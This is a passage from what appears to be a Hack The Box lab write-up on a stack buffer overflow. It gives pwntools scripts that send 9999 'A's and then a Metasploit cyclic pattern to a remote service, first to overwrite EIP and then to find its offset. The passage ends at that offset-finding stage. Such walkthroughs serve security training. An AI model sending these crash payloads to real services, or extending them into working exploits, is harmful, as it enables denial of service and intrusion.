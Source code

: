 #### checking for buffer overflow
First I'll send 9999 "A"s to the program to verify a buffer overflow vulnerability.

```python
#!/usr/bin/env python3
from pwn import *

def exploit():
    
    buffer="\x41" * 9999

    payload = buffer

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()
```

```sh
python exp.py
```

by checking the registers I confirm that it is vulnerable to buffer overflow since eip was overwritten with "A"s

![Desktop View](/assets/img/htb/buff/registers_1.png)

Since the program has crashed I'll have to reload it, to do it I 
1. click on the restart button
2. click run button repeatedly until the program starts

![Desktop View](/assets/img/htb/buff/buttons.png)

This process will have to be repeated through all the debugging since the program will be crashing many times due to the overflow, it will be referred as __reloading the program in the debugger__.

#### finding the exact length of buffer before EIP

To check what is the length of junk data to send before reaching the eip I send a specially crafted pattern created with the metasploit tool  pattern_create.rb, I save the pattern to a file and with a python script I make it read from the file and send the pattern.

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 9999 > pattern
```

```python
from pwn import *

def exploit():
    
    with open('./pattern','r') as file:
        buffer=file.read()

    payload = buffer

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit() 
```
